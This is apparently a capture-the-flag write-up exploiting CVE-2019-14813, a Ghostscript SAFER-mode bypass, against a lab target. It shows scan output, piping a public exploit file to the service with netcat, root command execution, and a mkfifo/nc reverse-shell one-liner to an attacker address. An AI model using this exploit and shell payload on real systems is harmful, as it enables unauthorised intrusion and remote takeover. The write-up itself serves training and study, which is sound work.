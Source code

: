```yaml
---
layout: page
title: CVE-2019-14813 
---
```



[CVE-2019-14813](https://echoctf.red/target/16)
![](/assets/images/CVE-2019-14813.png)

A flaw was found in ghostscript, versions 9.x before 9.28, in the setsystemparams procedure where it did not properly secure its privileged calls, enabling scripts to bypass -dSAFER restrictions. A specially crafted PostScript file could disable security protection and then have access to the file system, or execute arbitrary commands.


References:

[CVE-2019-14813](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14813)

[Ghostscript FIX Commit](http://git.ghostscript.com/?p=ghostpdl.git;a=commitdiff;h=885444fcbe10dc42787ecb76686c8ee4dd33bf3)

[Ghostscript Bugzilla - Bug 700317](https://bugs.ghostscript.com/show_bug.cgi?id=700317)

---

### Enumartion



nmap -sC -sV -p- 10.0.40.0

```
PORT      STATE    SERVICE VERSION
12345/tcp open     netbus?
| fingerprint-strings:
|   Help:
|     GPL Ghostscript 9.26 (2018-11-20)
|     Copyright (C) 2018 Artifex Software, Inc. All rights reserved.
|     This software comes with NO WARRANTY: see the file PUBLIC for details.
|     GS>Error: /undefined in HELP
|     Operand stack:
|     Execution stack:
|     %interp_exit .runexec2 --nostringval-- --nostringval-- --nostringval-- 2 %stopped_push --nostringval-- --nostringval-- %loop_continue --nostringval-- --nostringval-- false 1 %stopped_push .runexec2 --nostringval-- --nostringval-- --nostringval-- 2 %stopped_push --nostringval--
|     Dictionary stack:
|     --dict:957/1684(ro)(G)-- --dict:0/20(G)-- --dict:78/200(L)--
|     Current allocation mode is local
|     Last OS error: No such file or directory
|     Current file position is 5
|   NULL:
|     GPL Ghostscript 9.26 (2018-11-20)
|     Copyright (C) 2018 Artifex Software, Inc. All rights reserved.
|     This software comes with NO WARRANTY: see the file PUBLIC for details.
|   OfficeScan:
|     GPL Ghostscript 9.26 (2018-11-20)
|     Copyright (C) 2018 Artifex Software, Inc. All rights reserved.
|     This software comes with NO WARRANTY: see the file PUBLIC for details.
|     GS>Error: /undefined in GET
|     Operand stack:
|     Execution stack:
|     %interp_exit .runexec2 --nostringval-- --nostringval-- --nostringval-- 2 %stopped_push --nostringval-- --nostringval-- %loop_continue --nostringval-- --nostringval-- false 1 %stopped_push .runexec2 --nostringval-- --nostringval-- --nostringval-- 2 %stopped_push --nostringval--
|     Dictionary stack:
|     --dict:957/1684(ro)(G)-- --dict:0/20(G)-- --dict:78/200(L)--
|     Current allocation mode is local
|     Last OS error: No such file or directory
|     Current file position is 4
|_    GS>GS>
42132/tcp filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?


```

### vulnerability

CVE-2019-14813


### Exploit 

using refrences and google:

[ghost_script_exploit](https://github.com/hhc0null/GhostRule/blob/master/ghostrule3.ps)

let connect via telnet:

telnet 10.0.40.0  12345

```
telnet 10.0.40.0  12345 
                                                                       1 ⨯ 2 ⚙
Trying 10.0.40.0...
Connected to 10.0.40.0.
Escape character is '^]'.
GPL Ghostscript 9.26 (2018-11-20)
Copyright (C) 2018 Artifex Software, Inc.  All rights reserved.
This software comes with NO WARRANTY: see the file PUBLIC for details.
GS>


```

we connected to Ghostscript. 

### Rce

[ghost_script_exploit](https://github.com/hhc0null/GhostRule/blob/master/ghostrule3.ps)

pasting all file content to terminal.

```
cat ghostrule3.ps | nc 10.0.40.0 12345                                                             2 ⚙
GPL Ghostscript 9.26 (2018-11-20)
Copyright (C) 2018 Artifex Software, Inc.  All rights reserved.
This software comes with NO WARRANTY: see the file PUBLIC for details.
GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS>GS<1>GS<2>GS<3>=============================================================================
=     Safer Mode Bypass by `.forceput` Exposure from `setsystemparams`      =
=============================================================================
GS>GS>[*] Obtaining .forceput operator from setsystemparams operator...
GS>GS>GS>GS>GS>GS>GS>GS<1>GS<2>GS<3>GS>[+] A candidate for .forceput operator found!
GS>GS>[*] Attempting sanity check with the candidate for .forceput operator...
GS>GS<1>GS>GS>GS>GS>GS>[+] Successfully got .forceput operator!
GS>GS>[*] Overwriting several flags to escape from Safer Mode...
GS>GS>GS>GS>GS>GS>GS>GS>GS>[+] Successfully escaped from Safer Mode!
GS>GS>[*] Executing a shell command...
GS>root
GS>
```
as we can see, we can execute commadns, and got bonus, i can do it as root. 

so let get shell + and root.

### Privilege escalation

let replace the id to rev_shell script. 

```

(Executing a shell command...) info
(whoami) osexec print
quit

```

to 

```

(Executing a shell command...) info
(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.0.10 4444 >/tmp/f) osexec print
quit
```

[generate shells](https://www.revshells.com/)

![](/assets/images/p_sec_cve14813.png)

